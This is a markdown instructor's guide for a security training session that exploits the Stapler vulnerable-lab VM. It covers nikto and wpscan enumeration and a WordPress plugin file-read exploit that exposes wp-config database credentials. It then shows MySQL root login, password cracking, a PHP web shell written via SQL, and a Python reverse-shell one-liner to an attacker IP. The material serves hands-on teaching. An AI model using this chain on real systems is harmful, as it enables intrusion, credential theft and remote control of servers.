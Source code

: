 ```yaml
---
author: bhero
topic: dojo
---
```


Attack and exploit portion of the Dojo

# Attacking

Pull everyone together to discuss what they found, ask how they did it

Replicate as per walkthrough if required - what trolls did people find

Use the whiteboard for this section to formulate a picture of the services.

ASK:
1. did anyone brute force in?
2. did anyone get in another way? - How far?
3. did people find WP site?
4. did people try login against mysql?



key notes before attack - the plugin is vulnerable to LFI
This allows access to root dB creds, with this we can get full shell access.

This section varies with skill of audience, many folks may just want a demo others hints.

Prefeered vector is progromatic exploit as audience are devs

can also steal/guess username and break password - cover how to do this via hydra tutorial

allow 30 mins

explain there is way in with a code vulnerability, show exploit dB and searchsploit and rev shells


Attack the webserver via wordpress upload.
get the nikto scan: (set the var STAPLER_IP)
```
nikto -h https://$STAPLER_IP:12380/blogblog/ > HTTPSblogblog.txt
```

start scripts to identify the wp_users and the plugins:

```
wpscan --url https://$STAPLER_IP:12380/blogblog/ --enumerate u --disable-tls-checks -o wpscan_users.txt
```
```
wpscan --url https://$STAPLER_IP:12380/blogblog/ --enumerate ap --disable-tls-checks --plugins-detection aggressive -o wpscan_plugins.txt
```

while running show the dir listing issue and visit the plugins url: 
https://192.168.56.104:12380/blogblog/wp-content/plugins/

poke about - highlight the uploads:
https://192.168.56.104:12380/blogblog/wp-content/uploads/

mention plugins are usually the weakness

use searchsploit:
```
searchsploit wordpress plugin video advanced
```

read in terminal
```
less /usr/share/exploitdb/exploits/php/webapps/39646.py 
```

explain that it forces an upload of an 'image' because $thumb not secure, no file type check implemented. - check the inputs would fix this.

a POC:
https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/etc/passwd`

go to uploads and view the picture
explain it is text not jpg, so we curl

example:
```
curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/108293608.jpeg
```

now we check the wp-config because it has dB access details:
https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php


get mysql root password onliner example:

curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/1006632345.jpeg


login and get passwords

```
mysql -h $STAPLER_IP -u root -pplbkac 
use wordpress;
select user_login,user_pass from wp_users;
```

close the connection and get the editied file: [wp_users.txt](/assets/vulnhub_stuff/stapler/wp_users.txt)

break the passwords with:

john wp_users.txt -wordlist=/usr/share/wordlists/rockyou.txt
this would let you login, but we all use super big passwords right?

so we won't wait, lets revisit the exploit to get the server root of the webserver via default config, explain apache config

https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/etc/apache2/sites-enabled/000-default.conf

curl it to see DocumentRoot /var/www/https can be enumerated from /etc/apache2/sites-enabled/000-default.conf

login again and pop a wbshell in

```
mysql -h $STAPLER_IP -u root -pplbkac 
select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/https/blogblog/wp-content/uploads/mysql-shell.php';
```

check it works example:

https://192.168.56.105:12380/blogblog/wp-content/uploads/mysql-shell.php?cmd=ls


time to get a shell:
set listner on port 21 
then go here:
https://192.168.56.104:12380/blogblog/wp-content/uploads/system-webshell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

spawn bash:
``` sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

ctrl^Z it and get a ptty:
```
stty raw -echo
fg
```

do stuff, show execution!

## Recommended Resources

tutorial site for reverse shells

code injections
searchsploit
hydra tutorial for brute forcing

next up [Pwning](Stapler-Dojo-Part-5-Exercises.html)